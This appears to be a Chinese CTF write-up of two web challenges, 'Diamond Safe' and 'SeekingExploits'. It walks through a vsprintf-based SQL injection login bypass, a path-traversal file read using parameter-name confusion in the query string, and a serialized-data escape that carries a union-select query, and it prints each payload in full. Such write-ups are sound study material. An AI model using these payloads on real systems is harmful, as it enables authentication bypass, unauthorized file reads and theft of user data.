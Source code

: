 # Diamond Safe

就是一个页面没看到任何东西,进去My Vault页面会跳到login,于是看看login的源码

关键源码如下

![](https://i.loli.net/2021/11/04/DVdC3bwmlf6ZTkj.png)

跟进prepare

![](https://i.loli.net/2021/11/04/GTQfJWBkaebm9PK.png)

最后return这里用了vsprintf

可以看看vsprintf的漏洞

```
var_dump(vsprintf("%1$'%s'", 'monkey'));
```

![](https://i.loli.net/2021/11/04/g53qUhnYPacEGrp.png)

这样就可以把name参数的值带入到password里面造成注入

直接尝试万能密码注入,把name的值带入password参数中,闭合sha1构造万能密码

```
POST:
password=%1$&name=) or 1=1%23
```

在网上扒了个图可以看看语句是如何的

![](https://i.loli.net/2021/11/04/CVDiIhJwuFZc12Q.png)

成功登陆了

![](https://i.loli.net/2021/11/04/nTQ2RMekGbUKB4r.png)

在首页看到了下文件的点

![](https://i.loli.net/2021/11/04/tQZUdl3AfvJHCnN.png)

接下来在download.php下看到了readfile函数

![](https://i.loli.net/2021/11/04/zdFAOGIpTeXBEj1.png)

但是提前要GET一个h参数，我随便GET了一个并没有成功

在vault.php中

![](https://i.loli.net/2021/11/04/7l4RkxNJXTp6DiA.png)

这里有个校验：checkurl和gen_secure_url，大致意思是把要下的文件加上secret的md5值和传入的md5值比较，但是这里获取参数用的是$_SERVER[‘QUERY_STRING’]，获取到的是未urldecode的字符串，所以这里可以直接利用QUERY_STRING不自动urldecode的特性和php中空格等于的特性一把梭

php的空格等于特性

![](https://i.loli.net/2021/11/04/mEzBIbqV8LgiG1K.png)

不过我们可以在页面看到下载文件的时候的h参数是什么

![](https://i.loli.net/2021/11/04/tQZUdl3AfvJHCnN.png)

可以直接用这个payload去读flag

```
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file name=../../../flag.txt
```

下载下来了flag.txt

![image-20211102175725263](images/1.png)

或者

```
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file.name=../../../flag.txt
```

参考链接

https://blog.csdn.net/weixin_34290352/article/details/89664775

https://www.anquanke.com/post/id/258083#h3-8

之前只接触过file.name可以当做为file_name,这次学习到了空格这个特性还是不错

# SeekingExploits

给的附件里面有两个文件emarket-api.php和emarket.php

在emarket-api.php中有序列化函数

![](https://i.loli.net/2021/11/04/yLnNsWQhVX3rmF1.png)

这里还插入了exploit_proposals表

而且插入的东西是没有任何限制的

![](https://i.loli.net/2021/11/04/LcEirASZo1Gvy4s.png)

而在emarket.php中

![](https://i.loli.net/2021/11/04/RkubB94YyxQJHw2.png)

有一个反序列化函数后直接进入了simple_select没有任何的过滤

但是这里我跟进这些函数没有对应的文件,我看师傅的wp中都有这些文件,无奈只能看着wp里面的文件分析了

他跟进了simple_select

![](https://i.loli.net/2021/11/04/HghF8LN9XwGApKo.png)

这里可以hook进去执行emarket.php的list_proposals方法，然后反序列化

首先要注册登陆一个账号,因为这里的run_hooks的执行条件要提前发送了邮件

![](https://i.loli.net/2021/11/04/J45M8svBAgYiOcW.png)

随便发送一封邮件

这里的trick就是利用在escape_string中的validate_utf8_string方法，可以把`%c0%c2`变成`?`

然后可以将我们的sql语句逃逸出来反序列化执行

payload

```
/emarket-api.php?action=make_proposal&description=1&software=1.2&latest_version=4&additional_info[a]=%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2&additional_info[b]=%22%3b%73%3a%37%3a%22%73%6f%6c%64%5f%74%6f%22%3b%73%3a%35%35%3a%22%30%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%75%73%65%72%6e%6f%74%65%73%29%20%20%66%72%6f%6d%20%6d%79%62%62%5f%75%73%65%72%73
```

逃逸后的情况大概如下

![](https://i.loli.net/2021/11/04/Yu9WeNXkmSaTRK6.png)

这样发包后再去访问我们之前发送的邮件

![](https://i.loli.net/2021/11/04/bSTmxVOhqiYpKjZ.png)

看到了flag

这道题目不知道是我没弄对还是怎么的,我看wp里面的文件好多我附件里面都没有,simple_select这些也跟不进去

参考链接

https://www.anquanke.com/post/id/258083#h3-8

